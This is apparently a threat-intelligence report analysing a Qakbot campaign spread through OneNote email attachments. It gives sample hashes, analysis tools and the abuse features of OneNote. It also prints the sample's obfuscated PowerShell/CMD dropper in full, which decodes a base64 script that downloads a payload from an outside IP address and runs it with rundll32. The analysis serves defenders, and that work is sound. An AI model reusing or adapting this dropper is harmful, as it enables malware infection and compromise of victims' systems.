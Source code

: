 -   Offers a formatting capability that can lure users into opening
    malicious files or links

-   Not impacted by Office Protected View or Mark of the Web protection

-   OneNote supports integration with other Microsoft Office
    applications, such as Outlook, Word, Excel, and PowerPoint which can
    be displayed without Protected View

-   Allows for the embedding of MSF, BAT, HTA, BAT, EXE files, and other
    executable extensions

-   Portability of code development through the OneNote XML objects
    makes it easier for threat actors to automatically generate a large
    volume of obfuscated variants

In this research, we analyze a specific sample identified by the MD5
hash 83feba178d0097929e6efeb27719d5db. It belongs to a Qakbot campaign
which is primarily spread through spam email that include Office OneNote
document attachments. The Trellix Advanced Research Center's Threat
Intelligence Group gathers and analyzes information from multiple open
and closed sources before disseminating this report.

First-stage OneNote sample information

Filename

Funds_834333.one

MD5

83feba178d0097929e6efeb27719d5db

SHA-1

e50f09e56a72b14ff200b94ca583c3f9bb1112b1

SHA-256

033ca3aa775a34a7a4b6533b0fb744c9c71ab6cebec7e3f17a261e8f4edcdd01

File size

171 KB

To parse its information, a few free tools can help in analyzing OneNote
documents such
as [OneNoteAnalyzer]{.underline}, [[One-Extract]{.underline}](https://github.com/volexity/threat-intel/tree/main/tools/one-extract), [[Onedump.py]{.underline}](https://blog.didierstevens.com/2023/01/22/new-tool-onedump-py/).
This specific OneNote sample contains CMD (Windows Command File), which
indicates that it may include executable code. Below is the metadata
that was extracted using OneNoteAnalyzer:

From the extracted metadata, we notice that the attached CMD which was
last saved under the path \"Z:\\build\\one\" on 2/6/2023 using Microsoft
OneNote 2010. The CMD payload that contains the malicious payload is
shown in the Code below:

powershell.exe \$aV2hgYDB = \'5d44a2b0d85aa1a4dd3f218be6422c66\';\
\[System.Text.Encoding\]::ASCII.GetString(\[System.Convert\]::FromBase64String(\'DQpAZWNobyBvZmYNCnNldCBhTWVXMUU9YTgweU9zDQpzZXQgYVRacG9MPWFxRDE4R1kNCnNldCBhZmhIZUo9YUdzSzR5VWpmDQpwb3dlcnNoZWxsIChuZXctb2JqZWN0IHN5c3RlbS5uZXQud2ViY2xpZW50KS5kb3dubG9hZGZpbGUoJ2h0dHA6Ly8yMTYuMTIwLjIwMS4xMDAvNjA4NTIuZGF0JywgJ0M6XHByb2dyYW1kYXRhXGdiLmpwZycpOw0Kc2V0IGFqYXM0YkVGPWFmd1VwUQ0Kc2V0IGE4bFdJajQ9YXhUOHV2OXANCmNhbGwgcnUlMWxsMzIgQzpccHJvZ3JhbWRhdGFcZ2IuanBnLFdpbmQNCmV4aXQNCg==\'))
\> C:\\Users\\Public\\1.cmd&&start /min C:\\Users\\Public\\1.cmd nd 
